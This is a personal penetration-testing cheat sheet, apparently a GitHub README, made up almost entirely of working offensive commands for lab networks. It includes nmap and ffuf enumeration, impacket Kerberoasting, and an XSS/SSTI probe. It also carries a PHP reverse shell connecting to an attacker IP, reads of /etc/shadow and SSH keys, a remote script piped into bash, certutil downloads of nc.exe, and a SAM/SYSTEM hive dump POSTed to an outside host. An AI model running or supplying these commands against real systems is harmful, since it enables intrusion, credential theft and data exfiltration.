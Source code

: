 
<h1>My Methodology</h1>
<picture>
  <img src="https://github.com/user-attachments/assets/fb6d2226-5477-4396-be41-e38d2a947be4">
</picture>


<details>
    <summary><H4>Host Discovery (External)</H4></summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Host Discovery (Internal)</H4></summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Service Enumeration</H4></summary>
    
    nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
    ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
    nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
    ftp 172.16.1.10
    anonymous
    anonymous
    ls -a
    binary
    ascii
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
    impacket-smbclient domain/'user':'password'@172.16.1.10
    shares
    use
    mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
    impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
    impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
    impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
    impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password
    
    for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
        do mkdir -p "/dev/shm"/mnt"$x"
        sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
        tree -puga "/dev/shm"/mnt"$x"
    done
</details>

<details>
    <summary><H4>Web Enumeration</H4></summary>

   <h5>Technology Discovery</h5>
   
    whatweb http://10.10.110.100

   <h5>WAF Discovery</h5>
   
    wafw00f http://10.10.110.100
    
   <h5>WordPress Discovery</h5>
   
    wpscan --url http://10.10.110.100/wordpress --enumerate
    
   <h5>Directory Discovery</h5>

    ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
    -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
<h5>Directory Traversal</h5>

    ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
   <h5>XSS + SSTI</h5>
   
    <img src=x>'"${{7*7}}
    
   <h5>Subdomain Discovery</h5>
   
    gobuster vhost --append-domain -u example.com -k -r -t200 -q \
    -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
    | grep -oP '(?<=Found: )[^ ]+'
</details>

<details>
    <summary><H4>Exploitation</H4></summary>
    
<h5>Reverse Shells</h5>

    <?php
        $lhost = "10.10.16.3";
        $lport = 4444;
        
        exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
        $sock = fsockopen($lhost, $lport);
        if ($sock) {
            exec("sh <&3 >&3 2>&3");
            }
    ?>
    
  <h5>Upgrade TTY</h5>
  
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    CTRL-Z
    stty size;stty raw -echo;fg
    export SHELL=bash;
    export TERM=xterm-256color;
    stty rows <num> columns <num>
    reset
</details>

<details>
    <summary><H4>Post Exploitation</H4></summary>
    
   <h5>Linux</h5>
   
    ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
    netstat -tuln
    ls -la /opt
    sudo -l
    find / -perm /4000 2>/dev/null
    grep -r -E 'conf' /var/www
    cat ~/.ssh/id_rsa
    cat /etc/shadow
    curl xxxxxxxxxx:8088/linpeas.sh | bash
    GTFO bins
    
   <h5>Windows</h5>
   
    evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
    evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
    cd C:\users
    tree /f
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"
    
    click.url
    [InternetShortcut]
    URL=C:\programdata\shell.bat
    
    meterpreter > use priv
    meterpreter > getsystem
    
    nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
    '
    powershell -c rm *.SAV
    powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
    powershell -c reg save HKLM\SAM SAM.SAV
    powershell -c compress-archive *.SAV SAM.zip
    powershell -c dir
    iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
    '; unzip -o SAM.zip; \
    impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV
    
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
    powershell Import-Module C:\programdata\powerview.ps1
    Get-NetDomain
    Get-LocalUser
    Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
    bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
    bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
</details>
